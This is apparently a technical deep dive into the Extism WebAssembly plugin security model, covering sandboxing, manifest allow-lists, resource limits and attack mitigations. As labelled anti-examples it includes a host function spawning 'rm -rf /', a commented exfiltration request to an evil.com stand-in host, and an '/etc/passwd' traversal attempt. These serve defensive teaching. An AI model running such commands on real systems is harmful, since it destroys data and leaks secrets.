

# Deep Dive: Extism Security Model

## Overview

This deep dive explores Extism's capability-based security model. We examine how plugins are sandboxed, how capabilities are controlled via manifests, resource limits, and the security guarantees provided by the WebAssembly runtime.

## Security Architecture



## Sandboxing Guarantees

### Memory Isolation

```
Plugin Memory Space:
┌─────────────────────────────────────┐
│         Host Memory                  │
│                                      │
│  ┌────────────────────────────────┐ │
│  │    Plugin 1 Memory (Wasm)      │ │
│  │    - 64MB max (configurable)   │ │
│  │    - Isolated from host        │ │
│  │    - Isolated from Plugin 2    │ │
│  └────────────────────────────────┘ │
│                                      │
│  ┌────────────────────────────────┐ │
│  │    Plugin 2 Memory (Wasm)      │ │
│  │    - Separate address space    │ │
│  │    - Cannot access Plugin 1    │ │
│  └────────────────────────────────┘ │
└─────────────────────────────────────┘
```

### No Direct System Access

```rust
/// Plugin code CANNOT do:
/// - File system access (open, read, write)
/// - Network access (connect, send, receive)
/// - Process execution (fork, exec)
/// - Environment variables
/// - Random devices (/dev/random)

/// Plugin CAN only:
/// - Use host-provided functions
/// - Access allowed HTTP endpoints
/// - Access allowed filesystem paths
/// - Use WASI functions (if enabled)
```

### Capability Enforcement

```rust
/// Extism checks capabilities before allowing operations
impl CapabilityEnforcer {
    /// Check if HTTP request is allowed
    pub fn check_http_request(&self, url: &str) -> Result<(), Error> {
        let allowed_hosts = self.manifest.allowed_hosts
            .ok_or(Error::HttpDisabled)?;
        
        // Check if URL matches allowed host
        let requested_host = parse_url(url)?.host;
        
        for allowed in allowed_hosts {
            if host_matches(&requested_host, &allowed) {
                return Ok(());
            }
        }
        
        Err(Error::HostNotAllowed(url.to_string()))
    }
    
    /// Check if filesystem access is allowed
    pub fn check_fs_access(&self, path: &str) -> Result<String, Error> {
        let allowed_paths = self.manifest.allowed_paths
            .ok_or(Error::FsDisabled)?;
        
        // Resolve and check path
        let resolved = resolve_path(path)?;
        
        for (host_path, guest_path) in allowed_paths {
            if resolved.starts_with(guest_path) {
                let host_path = host_path.join(
                    resolved.strip_prefix(guest_path).unwrap()
                );
                return Ok(host_path.to_string());
            }
        }
        
        Err(Error::PathNotAllowed(path.to_string()))
    }
}
```

## Manifest Security Configuration

### Default Deny

```json
{
    "wasm": [{ "path": "plugin.wasm" }],
    // No allowed_hosts = no network access
    // No allowed_paths = no filesystem access
    // No environment variables exposed
}
```

### HTTP Capabilities

```json
{
    "wasm": [{ "path": "plugin.wasm" }],
    "allowed_hosts": [
        "https://api.example.com",
        "https://*.example.com",
        "https://api.trusted.com/*"
    ]
}
```

### Filesystem Capabilities

```json
{
    "wasm": [{ "path": "plugin.wasm" }],
    "allowed_paths": {
        "/host/data": "/plugin/sandbox",
        "/host/uploads": "/uploads"
    }
}
```

### Combined Capabilities

```json
{
    "wasm": [{ "path": "plugin.wasm" }],
    "allowed_hosts": ["https://api.example.com"],
    "allowed_paths": {
        "/tmp/plugin": "/workspace"
    },
    "config": {
        "api_key": "secret"
    },
    "memory_limit": 67108864
}
```

## Resource Limits

### Memory Limits

```rust
use extism::{Manifest, Plugin, Wasm};

let manifest = Manifest::new([Wasm::file("plugin.wasm")]);
let mut plugin = Plugin::new(&manifest, [], true)?;

// Set maximum memory (64MB)
plugin.set_max_memory(64 * 1024 * 1024);

// Memory is enforced by the WASM runtime
// Plugin cannot allocate beyond this limit
```

### Execution Timeout

```rust
use std::time::Duration;

// Set timeout for all function calls
plugin.set_timeout(Duration::from_secs(5));

// Or per-function timeout
plugin.set_function_timeout("slow_function", Duration::from_secs(10));

// Timeout is enforced via WASM fuel or epoch interruption
```

### Fuel-Based Limiting

```rust
/// WASM fuel limits computation steps
use wasmtime::{Config, Engine, Store};

let mut config = Config::new();
config.consume_fuel(true);

let engine = Engine::new(&config)?;
let mut store = Store::new(&engine, ());

// Set fuel limit
store.add_fuel(1_000_000)?;

// Function will trap when fuel exhausted
```

## Host Function Security

### Validating Host Functions

```rust
use extism::{CurrentPlugin, Error, Val};

/// Unsafe: Don't expose dangerous capabilities
fn dangerous_host_fn(
    plugin: &mut CurrentPlugin,
    inputs: &[Val],
    outputs: &mut [Val],
) -> Result<(), Error> {
    // NEVER do this - gives plugin full host access
    std::process::Command::new("rm -rf /").spawn();
    Ok(())
}

/// Safe: Validate all inputs
fn safe_host_fn(
    plugin: &mut CurrentPlugin,
    inputs: &[Val],
    outputs: &mut [Val],
) -> Result<(), Error> {
    // Validate input
    let offset = inputs[0].unwrap_i64() as u64;
    let data = plugin.memory_get::<Vec<u8>>(offset)?;
    
    // Validate data size
    if data.len() > 1024 * 1024 {
        return Err(Error::msg("Input too large"));
    }
    
    // Validate content
    let content = String::from_utf8(data)
        .map_err(|_| Error::msg("Invalid UTF-8"))?;
    
    // Sanitize before use
    let sanitized = content.replace('<', "&lt;");
    
    // Safe operation
    println!("Sanitized: {}", sanitized);
    
    Ok(())
}
```

### Input Validation

```rust
/// Validate plugin input before processing
fn validate_and_process(
    plugin: &mut CurrentPlugin,
    inputs: &[Val],
) -> Result<Vec<u8>, Error> {
    // Get input
    let offset = inputs[0].unwrap_i64() as u64;
    let input = plugin.memory_get::<Vec<u8>>(offset)?;
    
    // Size validation
    const MAX_INPUT_SIZE: usize = 10 * 1024 * 1024; // 10MB
    if input.len() > MAX_INPUT_SIZE {
        return Err(Error::msg(format!(
            "Input size {} exceeds limit {}",
            input.len(),
            MAX_INPUT_SIZE
        )));
    }
    
    // Content validation (example: JSON)
    let value: serde_json::Value = serde_json::from_slice(&input)
        .map_err(|e| Error::msg(format!("Invalid JSON: {}", e)))?;
    
    // Schema validation
    validate_json_schema(&value)?;
    
    // Process validated input
    let result = process(&value);
    
    Ok(result)
}
```

## Security Best Practices

### For Plugin Authors

```rust
// 1. Don't trust input
#[plugin_fn]
pub fn process(data: String) -> FnResult<String> {
    // Validate before use
    if data.len() > 10000 {
        return Err(Error::msg("Input too large"));
    }
    
    // Sanitize
    let sanitized = sanitize(&data);
    
    Ok(format!("Processed: {}", sanitized))
}

// 2. Handle errors gracefully
#[plugin_fn]
pub fn safe_operation() -> FnResult<()> {
    // Catch panics
    std::panic::catch_unwind(|| {
        // Risky operation
    }).map_err(|_| Error::msg("Operation failed"))?;
    
    Ok(())
}

// 3. Don't rely on persistent state
#[plugin_fn]
pub fn stateless_operation(input: String) -> FnResult<String> {
    // Variables persist across calls but not reloads
    // Design for statelessness when possible
    Ok(transform(&input))
}
```

### For Host Authors

```rust
// 1. Minimal capabilities
let manifest = Manifest::new([Wasm::file("plugin.wasm")])
    // Only allow required hosts
    .with_allowed_hosts(vec!["https://required.api.com"])
    // Only allow required paths
    .with_allowed_paths(vec![("/tmp", "/sandbox")]);

// 2. Resource limits
let mut plugin = Plugin::new(&manifest, [], true)?;
plugin.set_max_memory(32 * 1024 * 1024); // 32MB
plugin.set_timeout(Duration::from_secs(2));

// 3. Input validation
fn validate_input(input: &[u8]) -> Result<(), Error> {
    if input.len() > 1024 * 1024 {
        return Err(Error::msg("Input too large"));
    }
    Ok(())
}

// 4. Output sanitization
fn sanitize_output(output: &[u8]) -> Result<Vec<u8>, Error> {
    // Remove sensitive data from output
    let sanitized = remove_secrets(output);
    Ok(sanitized)
}
```

## Attack Vectors and Mitigations

### Denial of Service

**Attack:** Plugin consumes infinite CPU/memory

**Mitigation:**
```rust
// Memory limit
plugin.set_max_memory(64 * 1024 * 1024);

// Time limit
plugin.set_timeout(Duration::from_secs(5));

// Fuel limit (computation steps)
store.add_fuel(1_000_000)?;
```

### Data Exfiltration

**Attack:** Plugin tries to send data to unauthorized endpoint

**Mitigation:**
```rust
// Restrict HTTP endpoints
let manifest = Manifest::new([Wasm::file("plugin.wasm")])
    .with_allowed_hosts(vec!["https://trusted.api.com"]);

// Plugin cannot reach evil.com
// http::request("https://evil.com/steal?data=...")
// -> Error: Host not allowed
```

### Path Traversal

**Attack:** Plugin escapes sandbox via `../`

**Mitigation:**
```rust
// Manifest restricts paths
{
    "allowed_paths": {
        "/host/sandbox": "/plugin"
    }
}

// Plugin tries: open("/../../../etc/passwd")
// Resolved within sandbox only
// -> Error: Path not allowed
```

### Resource Exhaustion

**Attack:** Plugin allocates all available memory

**Mitigation:**
```rust
// Strict memory limit
plugin.set_max_memory(16 * 1024 * 1024);

// WASM runtime will trap on allocation failure
// Plugin cannot crash host
```

## Security Checklist

```
Host Security:
□ Minimal capabilities in manifest
□ Memory limits configured
□ Execution timeouts set
□ Input validation implemented
□ Output sanitization implemented
□ Host functions validated
□ Error handling doesn't leak info

Plugin Security:
□ Input validation implemented
□ No assumptions about persistence
□ Error handling is graceful
□ No side-channel attacks possible
□ Dependencies are audited

Deployment Security:
□ Plugins run as non-root
□ Network policies enforced
□ Logging and monitoring enabled
□ Secrets managed securely
□ Updates are signed and verified
```

## Conclusion

Extism provides defense in depth:

1. **WASM sandbox**: Memory isolation, no syscalls
2. **Capability model**: Explicit allow-listing
3. **Resource limits**: Memory, time, computation
4. **Host function validation**: Input validation, sanitization
5. **Defense in depth**: Multiple security layers
